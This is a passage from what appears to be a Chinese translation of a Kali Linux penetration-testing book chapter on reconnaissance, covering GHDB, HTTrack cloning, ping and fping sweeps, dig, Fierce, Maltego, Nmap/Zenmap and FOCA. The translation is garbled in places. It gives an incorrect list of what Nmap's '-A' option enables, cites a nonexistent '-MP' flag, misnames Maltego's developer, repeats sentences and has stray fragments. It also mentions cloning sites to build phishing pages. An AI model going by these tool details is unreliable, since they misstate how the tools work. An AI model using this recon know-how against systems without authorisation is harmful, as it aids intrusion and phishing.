

当我们点击第一个链接时，进入了配置软件的主屏幕。

GHDB 本质上将 Google 变成了渗透测试者的有限 Web 应用程序扫描器。在这种情况下，可以增加性的良好软件现在可能被攻击者用于攻击 Web 服务器。

## 网络研究

许多人并不理解目标网络以发动攻击的真实目的。业余渗透测试者理解在执行渗透测试之前需要选择一个目标。毕竟，渗透测试者需要一个地方来部署他们的工具库。这些业余人员会运行 Nmap、ping 扫描或其他嘈杂的工具来确定哪些目标可用，从而干扰环境，这随后会导致产生糟糕的结果。

网络侦察的核心在于选择目标。经验丰富的网络安全专业人士会告诉你，良好的侦察在于选择一个高质量的目标，并将大部分时间花在观察而不是行动。每次渗透测试的第一步都是准确地找到并选择高质量的目标。

从客户的角度来看，渗透测试者会遇到一些通过阻止渗透测试者来获得满足的人，以此证明他们作为员工的价值以及他们对网络攻击的准备工作。强烈建议专业的渗透测试者在执行渗透服务期间不要与客户员工发生冲突。渗透测试者应该关注安全意识，并在与目标员工交互最少的情况下揭示存在的漏洞。

以下是 Kali 中适用于 Web 应用程序侦察的最佳可用工具。其他其他适用于 Web 应用程序或其他类型的工具，但本章的重点是让读者能够评估基于 Web 应用程序的目标。

### HTTrack – 克隆网站

HTTrack 是 Kali 内置的一个工具。HTTrack 的作用是复制网站。它允许渗透测试者离线并在他们自己的受控环境中查看网站的所有内容及其所有页面。此外，我们将在后面的章节中使用 HTTrack 进行社交工程学攻击。拥有网站副本可以用于开发虚假的网络钓鱼网站，这可以被纳入渗透测试中。


在你克隆网站后，导航到保存该内容的目录。在其中，你将找到所有的文件和网页，如下截图所示：

```
root@kali:-# cd mywebsites/
root@kali:~/mywebsites# ls
cloudcentric.com
root@kali:~/mywebsites#
```

你现在已经准备好对目标网站进行研究，并可能构建自定义渗透工具或获取对封闭网站的权限。

### ICMP 侦察技术

`ping` 和 `traceroute` 命令是获取目标基本信息的良好方法。当信息跨网络传输时，通常会在到达目的地之前经过几个系统，例如路由器、防火墙和其他计算机系统。`traceroute` 命令可以识别数据传输的每个系统，以及数据在系统之间移动所需的时间。每个现代操作系统都安装了该工具。对于大多数高价值目标，`ping` 和 `traceroute` 命令可能会被禁用，过度使用这些服务很可能会触发网络安全系统的警报。许多防火墙或其他系统被设置为不响应二进制路由。如果系统对 `traceroute` 有响应，过度使用它可能会触发安全事件。这些工具具有噪声性，如果不加区分地使用，将触发报警和日志。如果你的目标是隐蔽，那么你刚刚失败了，给了你的目标一个针对你的渗透测试建立和部署防御措施的机会。

ICMP 扫描（ICMP sweep）发送一个回显请求并寻找响应。如果返回了响应，则可能存在目标。ICMP 扫描的问题是 ICMP 通常会被防火墙拦截。这意味着任何从外部指向内部目标网络的扫描都将被 ICMP 扫描器拦截。

`ping` 命令是开始 ICMP 扫描最基础的方法。你只需输入 `ping` 后跟主机名或 IP 地址，查看什么会对 ICMP 回显请求做出响应。下面的截图显示了对 `www.google.com` 的 `ping` 操作：

```
Last login: Tue Sep 10 10:28:12 on console
rtp-jumieiz-8815-: jumieiz ping www.google.com
PING www.google.com (72.44.93.94): 55 data bytes
64 bytes from 72.44.93.94: icmp_seq=0 ttl=55 time=123.56 ms
64 bytes from 72.44.93.94: icmp_seq=1 ttl=55 time=110.31 ms
64 bytes from 72.44.93.94: icmp_seq=2 ttl=55 time=106.218 ms
64 bytes from 72.44.93.94: icmp_seq=3 ttl=55 time=116.40 ms
---
--- www.google.ping statistics
5 packets transmitted, 5 packets received, 0.0% packet loss
round-trip min/avg/stddev = 106.218/116.4/123.566/5.935 ms
rtp-jumieiz-8815-: jumieiz
```

如果你收到任何响应，你将知道你的主机是在线的。如果你收到超时，说明你的 ICMP `ping` 被拦截了，或者没有目标主机接收你的请求。

`ping` 命令的问题是它只允许你一次使用 ICMP 检查一个主机。`fping` 命令允许你通过单个命令 `ping` 多个主机。它还允许读取包含多个主机名或 IP 地址的文件并使用 ICMP 回显包发送。

要使用 `fping` 在网络上运行 ICMP 扫描，请执行以下命令：

```
fping-asg network/host bits
fping -asg 10.0.1.0/24
```

虽然标记将仅通过活跃主机的 IP 地址返回结果，但 `s` 标志显示扫描的统计信息，`g` 标志将 `fping` 设置为静默模式，这意味着它向用户显示每次扫描的状态，仅在完成后显示摘要。

> Nmap 提供与 `fping` 命令类似的结果。

### DNS 侦察技术

大多数高价值目标都有与关联的 DNS 名称。DNS 让用户更容易访问特定服务，并为他们的系统增添了专业性。例如，如果你想访问 Google 获取信息，可以打开浏览器并输入 `74.125.227.101` 或输入 `www.google.com`。

关于特定目标的 DNS 信息对渗透人员来说非常有用。DNS 允许渗透人员绘制系统和子域映射。旧的 DNS 攻击从权威 DNS 获取区域文件（zone file），允许测试人员检查区域文件的完整内容以识别潜在目标。遗憾的是，如今大多数 DNS 服务器都不允许未经身份验证的区域传输。然而，并非全无希望！DNS 本质上是对查询的响应；因此，攻击者可以使用包含数百个名称的字典列表对 DNS 服务器进行查询。这种攻击向量是一项极其耗时的任务；但大部分方面是可以自动化的。

`dig`（domain information groper）是最流行和使用广泛的 DNS 侦察工具之一。它查询 DNS 服务器。要使用 `dig`，打开命令行提示符并输入 `dig <主机名>`，其中主机名代表目标域名。`dig` 将使用你操作系统的默认 DNS 设置来查询主机名。你也可以通过在命令中添加 `@<IP>` 来配置 `dig` 查询自定义 DNS 服务器。下面截图中的示例说明了对 `www.cloudcentrics.com` 执行 `dig`：


`-t` 选项会让 `dig` 向权威服务器授权区域。我们在对 `www.cloudcentrics.com` 执行 **`dig -t ns.cloudcentrics.com`** 时输入：

```
alakhani — bash —80
Last login: Tue Mar 19 23:50:26 on ttys00
chaos:~ alakhani dig -t ns cloudcentrics.com
; >> DIG 9.8
; global options: +cnd
; Got answer:
; flags: qr rd ra, opcode: QUERY, status: NOERROR, id: 15672
; answer: 1

; QUESTION SECTION:
cloudcentrics.com.	IN	NS

; ANSWER SECTION:
cloudcentrics.com.	IN	NS	3600	ns3681.gator.com.
cloudcentrics.com.	IN	NS	3600	ns3682.gator.com.

; Query time: Wed Mar 20 00:04:53
;; SERVER: 10.0.0.1
;; MSG size: 68
```

从结果中看到我们有两个权威服务器：ns3681.gator.com 和 ns3682.gator.com。

恭喜，你刚刚找到了 `cloudcentrics.com` 的 DNS 服务器。

### DNS 识别

现在你找到了域名的权威服务器，你可能想查看域名上有哪些主机。例如，`drchaos.com` 可能有多个主机，如 `cloud.drchaos.com`、`mail.drchaos.com`、`sharepoint.drchaos.com`。这些可能应用程序和潜在的高价值目标。

在随机选择主机之前，我们应该查询 DNS 服务器查看是否存在。最好的方法是询问 DNS 服务器。如果 DNS 服务器配置允许区域传输，它将给我们提供所有条目的副本。

Kali 自带名为 `Fierce` 的工具。`Fierce` 会检查 DNS 服务器是否允许区域传输。如果允许区域传输，`Fierce` 将执行区域传输并告知用户条目。如果 DNS 服务器不允许区域传输，`Fierce` 可以配置为对 DNS 服务器进行主机名破解。要要使用 `Fierce`，导航到信息收集 | DNS 分析 | Fierce。`Fierce` 提供以下选项：

--threads 指定扫描时使用的线程数（d 为单线程）
--traverse 指定在发现的 IP 上下方的 IP 数量。默认是下方 5 个。遍历不会移动到其他 C 块。
--version 输出版本号。
--wide 在发现该类中的任何主机名后，扫描整个 C 类。这会产生更多内容，但可以发现更多信息。
--wordlist 使用单独的字典（每行一个单词）

运行 `Fierce` 脚本，输入以下命令：

```
fierce.pl -dns examplecompany.com -wordlist dictionary
```


## 第 2 章

如前面的截图所示，域名 securityblogger.com 及其与其关联的几个主机。我们已经完成了任务。然而，你可以看到 Fierce 未能完成区域传输（zone transfer）。如果你定义了词汇列表或字典文件，Fierce 将尝试使用它们对区域进行暴力破解。我们没有定义，因为本节的目标是确定该域名上存在哪些主机，而不一定非要在此时此执行区域传输攻击。但是，如果你的目标比针对 Web 应用程序更广泛，你可能想自己自己进一步探索。

我们现在可以检测特定的主机，并使用 Nmap 等工具进一步对我们的目标进行映射。使用 Fierce 的一个重要方面是使用极少的网络流量选择目标，这对于避免被检测至关重要。我们将在本章后面使用 Nmap 收集有关我们目标的更多信息。

## Maltego – 信息收集图谱

Maltego 是由 Patwian 开发的内置在 Kali 中的一种侦察工具。它是一个多功能侦察工具，可以使用互联网上的开放和公开信息收集信息。它内置了侦察功能，但更深入地对你的目标进行指纹识别并收集情报。它获取信息并将结果以图的形式显示以便分析。

要启动 Maltego，导航到 Kali 中的“应用程序 (Application)”，点击 Kali 菜单。然后选择“信息收集 (Information Gathering) | DNS 分析 (DNS Analysis) | Maltego”。

启动 Maltego 的第一步是注册。不注册就无法使用该应用程序。



[ 57 ]

### 侦察

完成注册后，你就可以安装 Maltego 并开始使用应用程序。



Maltego 有许多收集信息的方法。使用 Maltego 的方法是利用启动向导选择你想收集的信息类型。经验用户可能想从空白图谱开始，或者完全跳过向导。Maltego 的强大之处在于它可以让你直观地观察域名、组织和人之间的关系。你可以围绕特定的组织关注，或者通过 DNS 查询查看组织及其相关的伙伴关系。

根据所选择的扫描选项，Maltego 将允许你执行以下任务：

- 将电子邮箱地址关联到个人
- 将网站关联到个人
- 验证电子邮箱地址
- 从 Twitter 收集详细信息，包括图片的地理位置

[ 58 ]

## 第 2 章

大多数功能都是自显易懂的，并在功能描述下包含了它们的使用方法。Maltego 常用于收集信息，有时用作社会工程攻击的第一步。



## Nmap

Nmap 代表 Network Mapper（网络制映射器），用于扫描网络上的主机和服务。Nmap 具有高级功能，可以检测系统上运行的不同应用程序，以及服务和操作系统的指纹识别功能。它是使用最广泛的网络扫描器之一，使其非常有效，但也非常容易被检测。我们建议在非常特定的情况下使用 Nmap，以避免触发目标的防御系统。

有关如何使用 Nmap 的更多信息，请访问：http://nmap.org/

此外，Kali 还带了 Zenmap。Zenmap 为 Nmap 提供了一个图形化用户界面 (GUI) 来运行命令。虽然有很多纯主义者会告诉你命令行版本在速度和灵活性上是最好的版本，但 Zenmap 已经取得了很大进步，并整合了 Nmap 的大部分功能。Zenmap 还提供了 Nmap 不提供的独有功能，例如开发扫描的图形表示，这些以后可以被其他报告系统使用。

复兴 (Renaissance)

要打开 Zenmap，进入 Backtrack 菜单。导航到“信息映射 (Information Mapping) | DNS 分析 (DNS Analysis)”，并启动 Zenmap。



你会在“配置 (Profile)”菜单下看到几个选项来确定你想运行的扫描类型，如下截图所示：



[ 60 ]

## 第 2 章

第一步是创建一个新配置。Zenmap 中的配置允许渗透测试人员选择执行什么种类型的扫描以及包含哪些不同选项。导航到“配置 (Profile)”菜单并选择“新配置 (New Profile)”或“命令 (Command)”来创建一个新配置，如下截图所示：



当你选择“新配置”或“命令”时，配置编辑器将启动。你需要给它一个描述性的名称。例如，你可以将配置命名为 My Scan（我的扫描）或你喜欢的任何名称。

可选情况下，你可以提供配置描述。在使用 Zenmap 的过程中，你可能会创建许多配置并进行多次扫描。一种本能可能是执行后删除配置。这里有一个建议：配置不占用任何空间，并且在你想要重新创建某些内容时会非常有用。我们建议在配置名称中使用极具描述性的词汇，并制定一种标准的命名方法。我所有的配置描述都以日期、时间、位置描述、目标网络扫描位置和客户名称开始。

img/df1fdcde66c92c1fef83bd651dd5ffe3_78.png

完成描述后，点击“扫描 (Scan)”选项卡。在“目标 (Targets)”字段中，你可以指定想要扫描的主机或网络。这可以是单个 IP 地址、主机范围或 CIDR 格式（例如 192.168.1.0/24）。

你可以指定扫描选项。Zenmap 允许你执行以下任务：

- 扫描主机或网络
- 扫描端口
- 扫描协议
- 扫描脚本

选择 `-A` 选项将启用所有高级扫描，包括：
- 操作系统检测 (-O)
- 版本检测 (-sV)
- 脚本扫描 (-sC)
- 快速跟踪 (-traceroute)
- 空闲扫描 (-sI)
- FTP 攻击 (-b)
- 禁用 DNS 解析 (-n)
- IPv6 支持 (-6)
- ACK 探测 (-PA)
- SYN 探测 (-PS)
- UDP 探测 (-PU)
- IP 协议探测 (-PO)
- SCTP INIT 探测 (-PY)

默认情况下，`-A` 选项会启用扫描：
- ICMP Ping 探测 (-PE)
- ICMP  {戳请求 (-PP)
- ICMP 子网掩码请求 (-MP)

在不设置此标志时，Nmap 将 ping 目标主机和网络。由于安全设备拦截请求，这可能会变得非常缓慢。`-Pn` 标志允许 Nmap 即使在没有 ping 的情况下也扫描主机。激进扫描被认为是侵入性的，会被大多数系统检测到。在不设置此标志时，Nmap 将只对存活或可达的主机进行扫描。`-Pn` 标志允许 Nmap 即使在没有 ping 的情况下也扫描主机。由于安全设备拦截请求，这可能会变得非常缓慢。


### 侦察

Hosts（主机）将列出发现的主机列表。



选择一个主机后，Zenmap 将显示主机的详细列表、其操作系统以及常用服务。在下面的截图中，你可以看到我们的一个主机是一个卫星 DVR/接收机一体机。



## 第二章

如果你查看 scan（扫描）内部，你将看到特定主机上开启了哪些端口，以及这些主机上运行了哪些应用程序。注意，Nmap 可以确定某些信息，例如服务器是否正在通过端口 80 运行 IIS 5.0 作为 Web 服务器。扫描结果将产生服务器的 IP 地址、服务器运行的操作系统以及在其运行的应用程序。渗透测试人员在针对该主机的漏洞时，会发现这些结果非常有价值。



现在你可以检查目标在端口 80 上运行的 Web 服务了，因为这非常重要。

Zenmap 获取 Nmap 扫描输出的最佳方式。Zenmap 提供了一个图形化界面来显示扫描结果，并可以导出为不同的格式，如文本或 xml。

虽然有很多方法获取 Nmap 输出（例如，本书的作者更倾向于命令行技术），但我们包含了这种技术，因为它在许多 Web 渗透标准中被引用，也是人们使用它的一种常用方法。

| Nmap 输出 | 端口 / 主机 | 拓扑结构 | 主机详情 | 扫描 |
|---|---|---|---|---|
| nmap -T4 -A -v 10.0.1.0/24 | | | 详情 | 19:58 启动隐蔽扫描<br>正在扫描 5 个主机 [1000 端口/主机]<br>在 10.0.1.104 上发现端口 8888/tcp<br>在 10.0.1.107 上发现端口 8080/tcp<br>在 10.0.1.107 上发现端口 445/tcp<br>在 10.0.1.103 上发现端口 53/tcp<br>在 10.0.1.103 上发现端口 22/tcp<br>在 10.0.1.103 上发现端口 80/tcp<br>在 10.0.1.107 上发现端口 80/tcp<br>在 10.0.1.104 上发现端口 443/tcp<br>在 10.0.1.104 上发现端口 443/tcp<br>在 10.0.1.104 上发现端口 139/tcp<br>在 10.0.1.1 上发现端口 53/tcp<br>在 10.0.1.107 上发现端口 9100/tcp<br>在 10.0.1.107 上发现端口 531/tcp<br>在 10.0.1.107 上发现端口 9290/tcp<br>在 10.0.1.107 上发现端口 9111/tcp<br>在 10.0.1.107 上发现端口 6383/tcp<br>在 10.0.1.107 上发现端口 9110/tcp<br>在 10.0.1.107 上发现端口 9102/tcp<br>在 10.0.1.107 上发现端口 9290/tcp<br>在 10.0.1.107 上发现端口 515/tcp<br>在 10.0.1.107 上发现端口 9101/tcp<br>在 10.0.1.104 上发现端口 787/tcp<br>在 1.27s 内对 10.0.1.104 完成 SYN 隐蔽扫描（剩余 4 个主机）<br>在 1.27s 内对 10.0.1.104 完成 SYN 隐蔽扫描（剩余 5 个主机）<br>在 10.0.1.1 上发现端口 5009/tcp |

此外，Zenmap GUI 中的多处地方允许你将图形和报告的某些部分导出为 CSV 文件或图像文件。这些导出在创建报告时非常有价值。

| Nmap 输出 | 端口 / 主机 | 拓扑结构 | 主机详情 |
|---|---|---|---|
| 主机查看器 | Fishey | 控制 | 保存图形 |

## FOCA – 网站元数据侦察

你知道每当你创建一个文档时，如 Microsoft PowerPoint 演示文稿、Microsoft Word 文档或 PDF 时，文档中都会留下元数据？

## 第二章

什么是元数据？元数据是关于数据的数据。它是关于特定数据集、对象或资源的描述性信息，包括其格式如何，以及何时以及由谁收集的。元数据对渗透测试人员非常有用，因为它包含了有关创建文件系统的信息，例如：

- 登录系统的用户名称
- 创建文档的软件
- 创建文档的操作系统

FOCA 是一种安全审计工具，将检查来自域的元数据。你可以让 FOCA 使用搜索引擎查找网域上的文件，或使用本地文件。FOCA 内置于 Kali 中；但该版本已经过时。最佳实践是下载最新版本。FOCA 传统上是一个 Windows 工具，较新版本可能仅适用于 Windows。可以在此处地址下载 FOCA 的最新版本：http://www.internet.com/DownloadFOCA（使用 Google 查看该英文页面）。你需要在屏幕底部提供你的地址。你将收到一封带有下载链接的电子邮件。当 FOCA 有新版本发布时，你也会收到更新通知。

1. 启动 FOCA 后要的第一件事是创建一个新项目，如下：

我们建议将所有项目文件放在一个地方。你应该为每个项目创建一个新文件夹。

2. 一旦命名了项目名称并决定了存储位置，请点击 **Create**（创建）按钮，如下：

下一步要做的是保存你的项目文件。项目保存后，点击 Search（搜索）按钮，以便 FOCA 也使用搜索引擎查找文档

右键点击文件并选择 Download（下载）选项，如下

5. 右键点击文件并选择 Extract metadata（提取元数据）选项，如下

6. 右键点击文件并选择 Analyze 